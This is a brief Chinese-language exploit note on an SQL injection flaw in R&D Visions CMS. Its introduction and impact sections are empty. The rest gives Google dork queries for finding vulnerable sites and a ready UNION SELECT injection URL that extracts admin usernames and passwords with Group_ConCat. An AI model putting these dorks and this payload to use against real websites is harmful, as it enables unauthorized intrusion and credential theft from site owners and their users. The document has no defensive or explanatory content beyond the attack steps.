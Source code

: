 R&D Visions CMS SQL Injection
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

Google Dork:

    intext:"Website by R&D Visions" inurl:.php?id=

    intext:"CMS System by R&D Visions"

Demo:

    https://www.0-sec.org/home.php?newid=53[SQLi]

Injection:

    https://www.0-sec.org/home.php?newid=-53+Union+Select+1,Group_ConCat(user,0x3a,pass),3,4,5,6,7,8,9,10,11,12+From+admin_user_log--
